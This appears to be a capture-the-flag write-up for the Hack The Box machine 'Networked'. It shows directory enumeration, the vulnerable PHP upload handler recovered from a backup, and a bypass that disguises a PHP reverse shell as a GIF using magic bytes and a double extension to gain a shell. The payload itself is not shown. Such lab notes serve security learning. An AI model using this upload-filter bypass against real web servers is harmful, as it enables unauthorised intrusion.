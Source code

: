 # 10 - Web Service

![](vx_images/2897254168981.png)


# gobuster

```
┌─[user@parrot]─[10.10.14.18]─[~/htb/networked]
└──╼ $ gobuster dir -u 10.10.10.146 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
/uploads              (Status: 301) [Size: 236] [--> http://10.10.10.146/uploads/]
/backup               (Status: 301) [Size: 235] [--> http://10.10.10.146/backup/]
```


# backup.tar
![](vx_images/2461438726504.png)

# Extract tar
```
┌─[user@parrot]─[10.10.14.18]─[~/htb/networked/backup]
└──╼ $ tar xvf backup.tar 
index.php
lib.php
photos.php
upload.php
```
# upload.php
![](vx_images/2399148515596.png)

# source code of upload.php
```
if( isset($_POST['submit']) ) {
  if (!empty($_FILES["myFile"])) {
    $myFile = $_FILES["myFile"];

    if (!(check_file_type($_FILES["myFile"]) && filesize($_FILES['myFile']['tmp_name']) < 60000)) {
      echo '<pre>Invalid image file.</pre>';
      displayform();
    }

    if ($myFile["error"] !== UPLOAD_ERR_OK) {
        echo "<p>An error occurred.</p>";
        displayform();
        exit;
    }

    //$name = $_SERVER['REMOTE_ADDR'].'-'. $myFile["name"];
    list ($foo,$ext) = getnameUpload($myFile["name"]);
    $validext = array('.jpg', '.png', '.gif', '.jpeg');
    $valid = false;
    foreach ($validext as $vext) {
      if (substr_compare($myFile["name"], $vext, -strlen($vext)) === 0) {
        $valid = true;
      }
    }

    if (!($valid)) {
      echo "<p>Invalid image file</p>";
      displayform();
      exit;
    }
    $name = str_replace('.','_',$_SERVER['REMOTE_ADDR']).'.'.$ext;

    $success = move_uploaded_file($myFile["tmp_name"], UPLOAD_DIR . $name);
    if (!$success) {
        echo "<p>Unable to save file.</p>";
        exit;
    }
    echo "<p>file uploaded, refresh gallery</p>";
```

* The first check is performed on the content, the second check is performed on the filename. The webserver wants image files with certain image extensions. By altering just the magic bytes of a file, we can make a reverse shell seem like a gif file
https://en.wikipedia.org/wiki/Media_type
https://en.wikipedia.org/wiki/List_of_file_signatures
* Error messages look almost the same. The first check errors out with a period at the end. `Invalid image file.` We will know at which check we failed.


# php-reverse-shell.php
```
┌─[user@parrot]─[10.10.14.18]─[~/htb/networked/exploit]
└──╼ $ file reverse.php 
reverse.php: PHP script, ASCII text
```

# GIF
GIF magic bytes are ascii characters and ascii characters don't cause any encoding problem.

![](vx_images/2763527851347.png)

![](vx_images/3234892799751.png)

# File Check
```
┌─[user@parrot]─[10.10.14.18]─[~/htb/networked/exploit]
└──╼ $ file reverse.php 
reverse.php: GIF image data, version 87a, 16188 x 26736
```

File type is completely changed because of the magic bytes. Also file extension has to change from php to gif for the second check.
```sql
┌─[user@parrot]─[10.10.14.18]─[~/htb/networked/exploit]
└──╼ $ mv reverse.php reverse.php.gif
```

# File uploaded
![](vx_images/4950528486393.png)


# Visiting photos.php gives us a shell
![](vx_images/1785328032871.png)

![](vx_images/286077847215.png)